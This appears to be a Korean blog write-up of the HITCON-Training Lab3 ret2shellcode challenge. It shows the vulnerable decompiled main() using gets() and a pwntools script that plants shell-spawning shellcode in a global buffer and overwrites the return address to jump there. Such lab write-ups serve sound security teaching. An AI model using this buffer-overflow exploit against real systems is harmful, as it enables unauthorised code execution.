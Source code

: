 ```yaml
---
title: "[HITCON-Training]Lab3"
date: 2019-11-17
tags: [hitcon]
categories: [HITCON-Training]
---
```


return to shellcode 문제다.

```CQL
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+1Ch] [ebp-14h]
 
  setvbuf(stdout, 0, 2, 0);
  printf("Name:");
  read(0, &name, 50u);
  printf("Try your best:");
  return (int)gets(&s);
}
```

name은 bss에 저장된 전역변수이다.

name에 shellcode를 넣고 gets로 return을 name으로 해주면 shellcode가 실행될거다.

```python
from pwn import *
 
e = ELF('./ret2sc')
p = process('./ret2sc')
 
p.sendlineafter(':',asm(shellcraft.i386.sh()))
pay = 'A'*(0x1c+4)
pay += p32(0x0804A060)
p.sendlineafter(':',pay)
p.interactive()
```

